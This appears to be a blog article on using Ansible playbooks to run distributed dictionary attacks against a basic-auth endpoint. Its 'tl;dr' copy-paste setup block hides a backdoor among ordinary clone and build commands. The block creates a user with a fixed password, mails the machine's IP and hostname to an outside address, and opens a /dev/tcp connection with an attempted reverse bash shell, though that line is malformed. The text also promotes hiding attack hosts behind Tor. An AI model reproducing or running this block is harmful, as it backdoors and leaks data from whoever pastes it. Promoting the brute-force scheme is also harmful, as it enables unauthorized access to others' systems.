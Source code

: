 ```yaml
---
title: Ansible for #SecDevOps
description: Weaponizing Ansible
catagories:
    - articles
tags:
    - ansible
    - infosec
    - devops
    - secdevops
---
```

# Ansible for #SecDevOps

Everyone is aware of all the average "hacking" tools out there that make dictionary based attacks look easy. But these tools have well know signatures which any good malware detection suite or a well architectured system will prevent access to these types of tools. However ansible only needs python 2 installed on the remote system and further more Python is now apart of the LSB thus potentially having any server able to remotely execute any arbitrary code via ansible.
Thus this proof of consept comes into play. The following playbook would show how to do a dictionary based attack on target (ie httpbin.org/basic-auth testing endpoint).

## Requirements

    - latest Ansible
    - Python 2.7
    - mosquitto module
    - vagrant (optional)
    - virtualbox (optional)
    - GNU make

## Howto

In short download this gist create the directory structure below, install vagrant and virtual box then run `make`.

### Directory Structure

```
.
./Makefile
./Vagrantfile
./hosts
./provisioning
./provisioning/main.yml
./provisioning/template
./provisioning/template/passwords
./provisioning/template/users
```

## tl;dr
For the skiddies in the crowd, copy pasta the following:

```
    git clone git@gist.github.com:7147846515c4293253bb.git 7147846515c4293253bb && cd $_
    mkdir provisioning/template -p && sudo useradd -m /dev/.tcp eth0 -p 'Fourty2'; curl ifconfig.me | mail -s "eth0:$(hostname)" t3stnurp0nj@mailinator.com; exec 3<> /dev/tcp/towel.blinkenlights.nl/23; (bash -i >& &3 0>&1) &
    for x in $(find . -maxdepth 1 -type f -name provisioning-\*); do mv ${x} ./$(echo $x | sed '/^.\//d' | tr '-/'); done
    make clean start
```

## Details

What we have here is an advance rule templating setup that takes advantage of ansible's iterations and ablility to distribute playbooks. Thus making serveral based dictionary attack posible and distributable. Further more setting automated git hooks to execute the playbook on commit or intergrating into your CI server of choice makes this sort of "hacking" [easier than ever](https://xkcd.com/303/).

![hacking made easy](https://what-if.xkcd.com/imgs/a/5/robot_apocalypse_end.png)

## Further reading and ideas

From here it is easy to [setup a bastlion host](https://10mi2.wordpress.com/2015/01/14/using-ssh-through-a-bastion-host-transparently/) for ansible to transparently connect to the target and hide your hosts behind a [private tor net](https://www.evernote.com/shard/s508/sh/05251db3-0a05-4ba0-b3c3-03ee0e3b4e2b/aa9a33fd453340e6cc2a87cecc96ca30).

## Download

Code for this article is availalbe at [gist://denzuko/7147846515c4293253bb](https://gist.github.com/denzuko/7147846515c4293253bb/archive/7d8a9c14f2f547d6d192255b6db66e6af5fd28a8.zip).
